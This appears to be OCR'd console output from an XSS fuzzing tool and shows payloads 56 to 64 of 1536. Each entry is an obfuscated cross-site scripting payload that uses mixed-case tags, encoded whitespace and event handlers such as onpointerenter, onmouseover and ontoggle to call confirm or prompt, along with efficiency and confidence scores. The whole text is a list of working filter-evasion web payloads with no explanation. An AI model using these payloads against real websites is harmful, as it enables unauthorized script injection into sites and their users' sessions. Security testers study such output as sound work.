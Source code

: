 ------------------------------------------------------------
 Payload: <hTMl/+/ONPoINterENtEr+=+(confirm)()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 56/1536
 
------------------------------------------------------------
 Payload: <HtMl%09oNpoinTerenTEr%0a=%0a[8].find(confirm)%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 57/1536
 
------------------------------------------------------------
 Payload: <D3v%0aonPOINTEREnTEr%0a=%0aa=prompt,a()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 58/1536
 
------------------------------------------------------------
 Payload: <d3V%0aonMoUsEovER%0a=%0aconfirm()%0dx//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 59/1536
 
------------------------------------------------------------
 Payload: <d3V%0dOnMouseOVEr%09=%09a=prompt,a()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 60/1536
 
------------------------------------------------------------
 Payload: <HTml/+/onmOUSEovER%09=%09[8].find(confirm)// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 61/1536
 
------------------------------------------------------------
 Payload: <htML%0dOnpoINTerenTEr%0d=%0d[8].find(confirm)// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 62/1536
 
------------------------------------------------------------
 Payload: <DeTaILS/+/ontoggLE%0d=%0d(confirm)()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 63/1536
 
------------------------------------------------------------
 Payload: <A%0dOnPoINTEReNTEr%0a=%0a(prompt)``%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 64/1536
 